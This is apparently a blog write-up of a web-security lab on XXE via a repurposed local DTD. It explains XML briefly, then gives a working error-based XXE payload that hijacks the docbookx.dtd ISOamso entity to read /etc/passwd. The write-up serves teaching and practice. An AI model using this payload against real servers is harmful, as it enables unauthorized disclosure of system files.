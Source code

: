 # Exploiting XXE to retrieve data by repurposing a local DTD



<figure><img src="https://cdn-images-1.medium.com/max/1120/0*Dl56HCmhV-aAf8RA.jpg" alt=""><figcaption></figcaption></figure>

Hello My Friend,

I wanted to share How I solved this lab for the Sake Of Spreading Knowledge

First, let’s talk a little about what XML is.

**XML**, akin to **HTML** and **SGML**, is a widely used markup language crafted for versatile data and document transfer and storage across different applications. Unlike **HTML**, which focuses on data display, **XML** prioritizes data storage and structure representation. **XML** documents consist of element trees, each identified by a tag. The initial element is termed the **root** element, while subsequent elements are called **child** elements.

<figure><img src="https://cdn-images-1.medium.com/max/1120/0*8dAfVwsl4Y42l4yV" alt=""><figcaption></figcaption></figure>

Example of an XML Document representing and user structure:

```
<?xml version="1.0"?>
<users>
    <user>
       <!-- child elements here -->
        <username>admin</username>
        <password>secrte</password>
        <group>Administrator</group>
    </user>
     <user>
        <username>h3ckt00r</username>
        <password>secrtehacktor</password>
        <group>users</group>
    </user>
<users>
```

The above example shows some of the key elements of an XML document, like:

<figure><img src="https://cdn-images-1.medium.com/max/1120/1*JJ4e8Ps3IUC8SbnuEuWOkQ.png" alt=""><figcaption></figcaption></figure>

Now that we understand it, let’s go into the solution.

Let’s go to the website and search for a bit. You will find a parameter called check stock. Click and let’s go to Burpsuite.

<figure><img src="https://cdn-images-1.medium.com/max/1120/1*FU_RM9ohwTajpSsmoOFBiA.png" alt=""><figcaption><p>check Stock button</p></figcaption></figure>

<figure><img src="https://cdn-images-1.medium.com/max/1120/1*c4i0PKyOwTe8sVLCh00Zjg.png" alt=""><figcaption><p>Hint</p></figcaption></figure>

> Now I will go call **docbookx.dtd** and from within I will take the entity called **ISOanso** and I will go and create another entity and make a call to **/etc/passwd** and after that I will create another **entity** and look in it for any **error** that appears and after that I will call Reference of the **first entity**. Come on, let’s see the failure. It will make you understand, my friend.

```
<!DOCTYPE h3ckt00r [ 
<!ENTITY % read SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY  &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY  &#x25; eval  "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%read;
]>
```

<figure><img src="https://cdn-images-1.medium.com/max/1120/1*a1raYBrmbt52zOiTFdyWkg.png" alt=""><figcaption><p>B000000M!</p></figcaption></figure>

<figure><img src="https://cdn-images-1.medium.com/max/1120/0*qpQA_Wu0Lq_iZneH.jpeg" alt=""><figcaption></figcaption></figure>

Thanks for reading, Hope you guys liked it.

\
